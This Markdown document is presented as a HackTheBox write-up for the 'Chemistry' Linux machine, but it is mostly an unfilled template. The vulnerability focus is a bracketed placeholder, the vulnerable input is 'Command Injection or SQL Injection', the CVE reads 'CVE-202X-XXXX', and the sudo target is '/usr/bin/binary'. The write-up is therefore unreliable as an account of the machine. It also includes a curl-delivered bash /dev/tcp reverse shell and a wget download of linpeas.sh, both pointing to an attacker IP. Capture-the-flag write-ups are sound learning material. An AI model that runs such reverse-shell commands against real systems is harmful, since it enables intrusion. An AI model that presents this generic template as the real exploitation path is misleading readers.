

## 🖥️ Machine Information

| Attribute | Value |
|---|---|
| **Platform** | HackTheBox |
| **OS** | 🐧 Linux |
| **Difficulty** | Easy |
| **IP Address** | `10.10.x.x` |
| **Vulnerability Focus** | [Initial Access Vector / Privilege Escalation Mechanism] |

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Chemistry** machine on the **HackTheBox** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We start with a complete port scan using Nmap:

```bash
nmap -sC -sV -oN nmap.txt 10.10.x.x
```

#### Open Ports:
- **Port 22/tcp**: SSH (Secure Shell)
- **Port 80/tcp**: HTTP (Apache Web Server)
- **Port 8080/tcp**: Alternative HTTP (Node.js/Spring Boot Web App)

### 2. Service Enumeration
We execute directory brute-forcing on Port 80 using Gobuster:

```bash
gobuster dir -u http://10.10.x.x/ -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
```
We identify interesting endpoints like `/admin` or `/api/upload` that deserve further audit.

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Vulnerability Analysis
We analyze the web application and discover an input field vulnerable to **Command Injection** or **SQL Injection** in the API endpoint.
- **CVE Reference**: [e.g., CVE-202X-XXXX]

### 2. Exploitation & Initial Shell
We craft a reverse shell payload and bypass client-side filters:

```bash
curl -X POST -d "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.51/443 0>&1'" http://10.10.x.x/api/upload
```

Triggering the request connects back to our listener:
```bash
nc -lnvp 443
# Connected as low-privileged web user
```

#### Capturing User Flag:
```bash
cat /home/*/user.txt
```

---

## ⚡ Phase 3: Privilege Escalation

### 1. Local Enumeration
We upload LinPEAS to find local exploitation avenues:

```bash
wget http://10.10.14.51:8000/linpeas.sh -O /tmp/linpeas.sh
bash /tmp/linpeas.sh
```
We also list available SUID binaries and sudo privileges:
```bash
sudo -l
# Found (root) NOPASSWD: /usr/bin/binary
```

### 2. Local Privilege Escalation Path
We abuse the custom binary or binary with sudo rights to spawn a root shell:

```bash
sudo /usr/bin/binary -e 'exec /bin/sh'
```

#### Capturing Root Flag:
```bash
cat /root/root.txt
```

---

## 🛡️ Key Takeaways & Mitigation
1. **Input Sanitization**: Ensure all user inputs are validated and sanitized to prevent injections.
2. **Principle of Least Privilege**: Restrict sudo/impersonation permissions and remove unnecessary privileges.
3. **Keep Software Updated**: Frequently update all operating system binaries and services to mitigate known CVEs.
